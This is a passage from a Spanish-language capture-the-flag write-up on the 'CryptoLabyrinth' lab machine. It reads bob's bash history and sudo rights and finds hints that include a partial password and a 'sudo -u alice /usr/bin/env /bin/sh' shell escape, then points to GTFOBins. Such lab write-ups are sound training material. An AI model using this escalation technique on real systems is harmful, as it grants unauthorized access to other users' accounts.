 También podemos ver que el **historial de Bash** no se vacía, por lo que podemos verlo:
```bash
bob@TheHackersLabs-CryptoLabyrinth:~$ cat .bash_history 
...
echo -n "2LWx*DsW0A*" | mkpasswd --method=bcrypt --rounds=12 > /var/www/html/hidden/bob_password4.hash
...
sudo -u alice /usr/bin/env /bin/sh
...
cd /tmp/.secreto.txt
cat /tmp/.secreto.txt
...
cat /opt/.secreto.txt
...
cd /mnt
cat .secreto.txt
...
```
Hay algunos comandos que son pistas de lo que tenemos que hacer.

Podemos ver que se usó un comando que genera un **hash bcrypt** de una clave/contraseña `2LWx*DsW0A*` con costo de 12 iteraciones (a la clave/contraseña le faltan dos caracteres), y lo guarda en un archivo **.hash** que está expuesto en el servidor web como **bob_password4.hash**.

Lo que es extraño, porque ya desciframos ese archivo y obtuvimos un resultado distinto.

Hay un archivo llamado **.secreto.txt**, que parece existir en varios directorios, pero revisando los directorios mencionados, no encontraremos algo en dicho archivo.

Salvo el directorio `/mnt`, donde ahí lo encontraremos, pero no podremos verlo:
```bash
bob@TheHackersLabs-CryptoLabyrinth:~$ ls -la /mnt
total 12
drwxr-xr-x  2 root  root  4096 oct 23  2024 .
drwxr-xr-x 18 root  root  4096 oct 17  2024 ..
-rw-------  1 alice alice   12 oct 21  2024 .secreto.txt
bob@TheHackersLabs-CryptoLabyrinth:~$ cat /mnt/.secreto.txt 
cat: /mnt/.secreto.txt: Permiso denegado
```

Por último, vemos que se utilizó el comando **env**, que utiliza privilegios del **usuario alice** y que parece dar una sesión **sh**.

Eso quiere decir que nuestro usuario tiene privilegios para usar el comando **env**:
```bash
bob@TheHackersLabs-CryptoLabyrinth:~$ sudo -l
Matching Defaults entries for bob on TheHackersLabs-CryptoLabyrinth:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bob may run the following commands on TheHackersLabs-CryptoLabyrinth:
    (alice) NOPASSWD: /usr/bin/env
```

Busquemos en la **guía de GTFOBins** una forma de escalar privilegios:
* <a href="https://gtfobins.github.io/gtfobins/env/" target="_blank">GTFOBins: env</a>
